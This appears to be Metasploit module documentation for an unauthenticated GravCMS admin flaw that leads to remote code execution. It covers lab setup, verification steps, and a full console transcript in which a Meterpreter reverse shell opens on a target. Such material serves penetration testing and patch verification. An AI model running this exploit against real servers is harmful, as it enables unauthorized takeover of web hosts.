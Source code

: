 ## Vulnerable Application

### Description

This module exploits arbitrary config write/update vulnerability to achieve remote code execution. Unauthenticated users can execute a
terminal command under the context of the web server user.

In versions prior to 1.10.10 of the admin component, an unauthenticated user can execute some methods of administrator controller
without needing any credentials. Particular method execution will result in arbitrary YAML file creation or content change of existing
YAML files on the system. Note that the fixed admin component (v1.10.10) has been released with GravCMS version 1.7.9.

Technical details about the vulnerability can be found at
[here](https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/) .

### Setup

GravCMS requires only PHP and a web server to run. Please visit following url to find out required php packages.

[https://learn.getgrav.org/17/basics/requirements](https://learn.getgrav.org/17/basics/requirements)

```
wget https://getgrav.org/download/core/grav-admin/1.7.8
unzip -x 1.7.8
chown -R www-data:www-data grav-admin
```

Once you finished the installation, visit the GravCMS and complete the admin user creation process.

Scheduler is not enabled in the default installation. It has a very important role during the exploitation.
To finish up the installation, execute the following command to enable the scheduler.

```
(crontab -l; echo "* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1") | crontab -
```

## Verification Steps

1. Follow [Setup](#setup) and install the application.
2. Run `msfconsole`
3. Set `RHOSTS`
4. Set `LHOST`
5. Execute `run` command.
6. You should get a shell.

## Options

### TARGETURI

The base path to GravCMS. The default value is `/`.

## Scenarios

```
msf6 >
msf6 > use exploit/linux/http/gravcms_exec
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/gravcms_exec) > set RHOSTS 192.168.179.131
RHOSTS => 192.168.179.131
msf6 exploit(linux/http/gravcms_exec) > set LHOST 172.26.253.227
LHOST => 172.26.253.227
msf6 exploit(linux/http/gravcms_exec) > options

Module options (exploit/linux/http/gravcms_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.179.131  yes       The target host(s), range CIDR identifier, or hosts file with
                                        syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.26.253.227   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(linux/http/gravcms_exec) > check
[*] 192.168.179.131:80 - The target appears to be vulnerable.
msf6 exploit(linux/http/gravcms_exec) > run

[*] Started reverse TCP handler on 172.26.253.227:4444
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait for 1 minute...
[*] Sending stage (39282 bytes) to 172.26.240.1
[*] Cleaning up the the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (172.26.253.227:4444 -> 172.26.240.1:53912) at 2021-04-11 15:32:01 +0300

meterpreter > pwd
/var/www/html/grav-admin
meterpreter > getuid
Server username: root (0)
```
